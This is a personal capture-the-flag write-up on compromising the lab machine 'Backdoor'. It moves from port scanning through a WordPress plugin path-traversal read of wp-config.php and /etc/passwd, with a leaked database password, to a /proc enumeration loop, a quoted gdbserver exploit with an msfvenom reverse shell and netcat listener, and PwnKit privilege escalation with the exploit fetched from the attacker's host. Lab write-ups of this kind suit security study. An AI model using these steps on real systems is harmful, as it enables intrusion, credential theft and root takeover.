 ```yaml
---
layout: post
title: CTF Backdoor
date:   2022-01-29 15:19:25 -0600
categories: CTF
tags: Linux
---
```

# hosts
```zsh
sudo echo "10.10.11.125 backdoor.htb" >> /etc/hosts
```

# nmap

```zsh
nmap -A -p- 10.10.11.125

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

It's a wordpress website.
# wpscan

```zsh
wpscan --url http://backdoor.htb/
```

# User wb
```zsh
http://backdoor.htb/?author=1
```

# CVE-2016-10924
???

# poc
https://www.exploit-db.com/exploits/39575
# wp-config

http://10.10.11.125:80/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

# Mysql pass

define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

# /etc/passwd
```zsh
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php\?ebookdownloadurl=/etc/passwd

/etc/passwd/etc/passwd/etc/passwdroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
<script>window.close()</script>% 
```

# Directory traversall blog
https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/

This one gonna help me to exploit the machine.
There is 3 exemples, this one sound good.
/proc/[PID]/cmdline 
```html
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php\?ebookdownloadurl=/proc/1/cmdline
```
I don't know how to use burpsuite, I'm gonna create a script.
```bash
i=1
while ((i<1000))
          do
    echo $i
    curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php\?ebookdownloadurl=/proc/$i/cmdline >> pid.txt    
    ((i=i+1))
done
```
I forgot it put the \n for each lines but it works.

![](https://i.imgur.com/8eOgm9j.png)
gdbserver
![](https://i.imgur.com/xpEriQq.png)
Ahaha I just need a sheel and I'm root.

# exploit gdb server
https://www.exploit-db.com/exploits/50539

```
help = f'''
Usage: python3 {sys.argv[0]} <gdbserver-ip:port> <path-to-shellcode>

Example:
- Victim's gdbserver   ->  10.10.10.200:1337
- Attacker's listener  ->  10.10.10.100:4444

1. Generate shellcode with msfvenom:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.100 LPORT=4444 PrependFork=true -o rev.bin

2. Listen with Netcat:
$ nc -nlvp 4444

3. Run the exploit:
$ python3 {sys.argv[0]} 10.10.10.200:1337 rev.bin
'''
```
This is what you have to do.
It was hard to connect to the server, I had lot of errors.
I was drooling on my keyboard while i thought about what i could do next.

![](https://i.imgur.com/bZNtp10.png)

And I'm in.
# Exploit pwnkit

This exploit is so good.
We don't have gcc on the target machine so I'm gonna use python.

## Download thee exploit on my computer
```zsh
mkdir exp
cd exp
wget https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py
python2.7 -m SimpleHTTPServer
```
## Download on the target from my computer
```zsh
wget 10.10.14.119:8000/CVE-2021-4034.py
```
## eploit 
```zsh
python3 CVE-2021-4034.py
id
```
![](https://i.imgur.com/sh5vFa7.png)






























